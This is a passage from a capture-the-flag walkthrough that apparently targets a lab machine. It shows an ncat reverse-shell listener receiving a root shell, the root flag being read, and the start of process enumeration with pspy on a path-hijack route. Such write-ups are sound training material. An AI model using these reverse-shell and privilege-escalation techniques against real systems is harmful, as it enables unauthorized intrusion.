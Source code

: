 At the listener on web, there’s a shell:

```

www-data@web:~$ /tmp/nc -lnvp 4433
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.254.3.
Ncat: Connection from 192.168.254.3:50426.
root@pki:/tmp# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

And `root.txt`:

```

root@pki:/tmp# cat /root/root.txt
da5d9a75************************

```

### Unintended Path Hijack

#### Enumeration

My favorite tool for watching processes on Linux is [pspy](https://github.com/DominicBreuker/pspy). I’ll upload it to pki the same way I uploaded `socat` above, and give it a run:

```

www-data@pki:/tmp$ ./pspy 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2021/08/16 11:43:37 CMD: UID=33   PID=9      | nginx: worker process 
2021/08/16 11:43:37 CMD: UID=0    PID=8      | nginx: master process nginx 
2021/08/16 11:43:37 CMD: UID=0    PID=6      | /bin/bash /entry.sh 
2021/08/16 11:43:37 CMD: UID=33   PID=495    | ./pspy
...[snip]...

```
